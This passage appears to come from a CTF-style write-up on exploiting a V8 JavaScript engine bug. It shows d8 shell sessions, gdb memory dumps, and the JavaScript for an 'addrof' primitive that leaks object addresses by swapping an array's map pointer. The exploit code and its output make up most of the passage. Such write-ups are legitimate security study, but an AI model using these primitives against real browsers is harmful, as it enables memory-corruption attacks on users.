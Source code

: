 

    d8> arr.SetLastElement(itof(float_map+0x50n));
    undefined
    d8> arr[0] = obj;
    {findme: 1}



The elements address doesn't change, and the object address pointer now
overwrites the high bytes of the old 1.1 value:



    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/8xw 0x3ecd080889a9-1
    0x3ecd080889a8: 0x08040a3d      0x00000002      0x0808823d      0x3ff19999  <-- FixedArray: map, len, pointer, garbage
    0x3ecd080889b8: 0x08241959      0x080406e9      0x080889a9      0x00000002  <-- JSArray: map, props, elements, len



I'll set the map back to float, and then read that value out:



    d8> arr.SetLastElement(itof(float_map))
    undefined
    d8> ftoi(arr).toString(16)
    "3ff199990808823d"



I'll add the following to `exploit.js`:



    var arr = [1.1];
    var float_array_map = ftoi(arr.GetLastElement());
    var obj_array_map = float_array_map + 0x50n;

    function addrof(target) {
        arr.SetLastElement(itof(obj_array_map));
        arr[0] = target;
        arr.SetLastElement(itof(float_array_map));
        return ftoi(arr[0]) & 0xffffffffn;
    }



And it works:



    d8> obj = {"findme": 1};
    {findme: 1}
    d8> %DebugPrint(obj)
    0x168308086861 <Object map = 0x168308244e29>
    {findme: 1}
    d8> addrof(obj).toString(16)
    "8086861"
